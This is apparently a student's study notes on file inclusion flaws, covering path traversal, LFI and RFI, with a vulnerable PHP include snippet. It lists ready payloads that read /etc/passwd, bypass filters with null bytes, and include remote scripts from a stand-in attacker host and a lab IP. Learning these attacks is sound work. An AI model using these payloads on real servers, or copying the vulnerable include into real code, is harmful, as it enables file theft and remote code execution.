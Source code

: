 # File Inclusion
|-> **Local File Inclusion (LFI)** <br>
|-> **Remote File Inclusion (RFI)** <br>
|-> **Directory Traversal**

<p align="center">
  <img src="https://github.com/PranjalBasak/Documentation/assets/66166653/03a1db1f-9669-4348-9c2b-e9b3056ad3fb" alt="Anatomy of a Get Request to Access a File">
</p>
<p align="center">
  <em>Fig: Anatomy of a Get Request to Access a File</em>
</p>

<p align="center">
  <img src="https://github.com/PranjalBasak/Documentation/assets/66166653/14628d7f-7f11-463f-bb40-ee6bf8154c35" alt="How A Request Works">
</p>
<p align="center">
  <em>Fig: How A Request Works</em>
</p>

**Cause:** 
<br> The main issue of these vulnerabilities is the input validation, in which the user inputs are not sanitized or validated, and the user controls them.
<br>
**Risk:** 
<br> An attacker can access any file in the web server or the operating system including source code using the vulnerablity. 
<br> They can even perform RCE by uploading their own files to the server.

## Path Traversal
AKA _**Directory Traversal/Dot-Dot-Slash Attack**_ <br>
This attack allows a hacker unauthorized access to operating system filee outside the web application's root directory.

In PHP, you can use the [`file_get_contents`](https://www.php.net/manual/en/function.file-get-contents.php) to read the content of a file.

**Example:** `http://webapp.thm/get.php?file=../../../../etc/passwd`

![image](https://github.com/PranjalBasak/Documentation/assets/66166653/eab139b1-d196-46eb-87f7-952d3f212e60)

## Local File Inclusion (LFI)
LFI is a vulnerability which allows attackers to retrive local files hosted in a web server and even execute malicious codes.

LFI can occur in web applications written in PHP, ASP, JSP, or even Node.js. In PHP, some functions contribute to the vulnerability of web applications including `include`, `require`, `include_once`, and `require_once`.

### Case 1: 
Let's say we have an web app which can switch between English and Arabian language. The PHP code is written as follows:
```php
<?PHP 
	include($_GET["lang"]);
?>
```

THE PHP code uses a GET request via the URL parameter `lang` to include the file of the page. We should have two kinds of requests:
- `http://webapp.thm/index.php?lang=EN.php`
- `http://webapp.thm/index.php?lang=AR.php`
But a malicious actor can read any file from the server using the vulnerable parameter `lang`, if there is no input validation and no directory specified in the `include` function. So an attacker can do:
`http://webapp.thm/get.php?file=/etc/passwd`

### Case 2: Bypass Invalid Extension
Use Null Bytes if the PHP code is configured in such a way that it will only accept a certain extension (such as only .php). In this case, a sample payload would be:
`http://webapp.thm/index.php?lang=../../../../etc/passwd%00`
Null byte will tell the PHP code to ignore anything after the null byte including the extension.

**NOTE:** the %00 trick is fixed and not working with PHP 5.3.4 and above.

## Case 3: Bypass A Filtered Keyword (`/etc/passwd`)
**Technique 1:** Use Null Bytes `%00`

**Technique 2:** Use `/.` in front of filtered keyword

## Case 4: Bypass A Filtered Keyword (Replaced `../` with Empty String)
![image](https://github.com/PranjalBasak/Documentation/assets/66166653/3f5b7720-b831-4e08-99b7-fe58342cc5f5)

## Case 5: Directory Specified
Considering the directory `languages` is specified,
Payload: `?lang=languages/../../../../../etc/passwd.`

## Remote File Inclusion (RFI)
RFI is an attack which allows an attacker to include remote files to the web application and execute malicious scripts in the server.

In RFI, one can inject an external URL into `include` function. But one requirement is that `allow_url_fopen` option needs to be `on`. RFI is deadlier than LFI since it allows RCE on the server. Other consequences include:
- Sensitive Information Disclosure
- Cross-Site Scripting (XSS)
- Denial of Service (DoS)

![image](https://github.com/PranjalBasak/Documentation/assets/66166653/9ed4aa3d-d153-403e-8f01-abc62626637e)
 Example Payload: 
 - `http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt`
 -  `http://10.10.233.114/playground.php?file=http://10.17.42.103:4444/46635.py`

**Running A Simple HTTP Server Using Python3:** `python3 -m http.server 9000`
